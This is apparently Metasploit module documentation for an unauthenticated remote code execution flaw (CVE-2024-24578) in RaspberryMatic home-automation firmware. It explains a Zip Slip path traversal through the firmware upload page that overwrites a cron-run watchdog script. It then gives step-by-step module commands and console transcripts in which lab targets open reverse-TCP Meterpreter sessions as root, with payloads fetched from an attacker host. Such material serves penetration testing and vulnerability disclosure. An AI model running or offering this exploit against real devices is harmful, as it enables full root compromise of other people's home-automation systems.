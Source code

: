 ## Vulnerable Application
RaspberryMatic / OCCU contains a unauthenticated remote code execution (RCE) vulnerability, caused by multiple issues within
the Java based HMIPServer.jar component. The webui allows for Firmware uploads which can be reached through the URL
`/pages/jpages/system/DeviceFirmware/addFirmware`.
This allows an unauthenticated attacker to upload a malicious .tgz archive to the server, which will be automatically
extracted without any further checks. As this entry can contain ../sequences, it is possible to break out of the predefined
temp directory and write files to other locations outside this path.

This vulnerability is commonly known as the Zip Slip vulnerability and can be used to overwrite arbitrary files on the main
filesystem. It is therefore possible to overwrite the watchdog script with a malicious payload in `/usr/local/addons/mediola/bin/`,
which will be executed every five minutes through a cron job where attackers can gain remote code execution as root user,
allowing a full system compromise.

RaspberryMatic versions <= `3.73.9.20240130` are vulnerable.

The following releases were tested.

**RaspberryMatic Releases:**
* RaspberryMatic v3.73.9 (OVA image)
* RaspberryMatic v3.65.8 (Raspberry Pi4 Model B image)

## Installation steps to install RaspberryMatic OVA image
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download [RaspberryMatic OVA](https://github.com/jens-maus/RaspberryMatic/releases/tag/3.73.9.20240130).
* Install the OVA image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options via the `webui`.
* Boot up the VM and should be able to access the RaspberryMatic appliance via the `webui` via `http://your_ip/`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/raspberrymatic_unauth_rce_cve_2024_24578`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined.

## Scenarios
### RaspberryMatic OVA appliance - Unix/Linux Command x64 target
```msf
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_SRVHOST 192.168.201.8
FETCH_SRVHOST => 192.168.201.8
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.73.9
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Uploading sT2s4fChKUZ.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Restoring original watchdog script.
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:51220) at 2025-01-28 18:00:01 +0000

meterpreter > sysinfo
Computer     : 192.168.201.6
OS           :  (Linux 6.1.74)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
### RaspberryMatic Pi4 Model B compute board - Unix/Linux Command aarch64 target
```msf
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set payload cmd/linux/http/aarch64/meterpreter_reverse_tcp
payload => cmd/linux/http/aarch64/meterpreter_reverse_tcp
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.10:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.65.8
[*] Executing Unix/Linux Command for cmd/linux/http/aarch64/meterpreter_reverse_tcp
[*] Uploading 8emVtVt6U.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Restoring original watchdog script.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.10:40324) at 2025-02-03 17:40:01 +0000
meterpreter > sysinfo
Computer     : 192.168.201.10
OS           :  (Linux 5.15.56)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
## Limitations
You have to wait maximum five minutes for a session to allow `cron` to run the malicious watchdog script
containing the payload. Just be patient and wait for the magic to happen ;-)
Another limitation is that the root filesystem on RaspberyMatic image is mounted read-only, so you need to set the
option `FETCH_WRITABLE_DIR` to `/tmp` (this is mounted RW) otherwise the exploit will fail.
